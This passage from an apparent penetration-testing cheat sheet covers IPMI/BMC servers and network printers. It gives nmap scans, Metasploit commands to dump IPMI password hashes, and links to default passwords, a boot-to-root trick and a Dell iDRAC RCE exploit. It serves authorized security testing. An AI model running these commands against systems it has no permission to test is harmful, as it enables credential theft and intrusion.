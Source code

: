 Enumeration (Nmap):

```
nmap -sU -p 623 --script ipmi-version <ip>
```

Grabbing hashes (possible due to design flaw in IPMI 2.0 protocol specification):

```
use auxiliary/scanner/ipmi/ipmi_dumphashes
set RHOSTS file:ipmiServices.txt
run
```

**References**

A Penetration Tester's Guide to IPMI and BMCs:

    https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/

BMC practical exploitation (rebooting -> changing kernel boot params via grub: init=/bin/bash -> booting to root):

```
https://medium.com/bugbountywriteup/how-a-badly-configured-db-allowed-us-to-own-an-entire-cloud-of-over-25k-hosts-part-1-2-8846beab691e
https://medium.com/bugbountywriteup/how-a-badly-configured-db-allowed-us-to-own-an-entire-cloud-of-over-25k-hosts-part-2-2-5a63da194bc1
```

SuperMicro IPMI (additional) default password:

    https://packetstormsecurity.com/files/105730/Supermicro-IPMI-Default-Accounts.html

Exploit: Dell iDRAC7 and iDRAC8 Devices Code Injection Vulnerability (RCE) (firmware: <  2.52.52.52):

    https://github.com/KraudSecurity/Exploits/blob/master/CVE-2018-1207/CVE-2018-1207.py

### Printers

Ports:

    TCP: 515,631,9100


Overview:

    -

Discovery (directly from the wire):

    nmap -sS -Pn -n -T4 -p515,631,9100 -iL IP-ranges.txt --open -oA pscans/printer-discovery
    cat pscans/printer-discovery.gnmap | grep -E -v 'Nmap|Status' | cut -d' ' -f2 | tee printersServices.txt

Discovery (from previous scans):

```
python scripts/nparser.py -f vscanlatest -p515,631,9100 -l | tee printersServices.txt
```
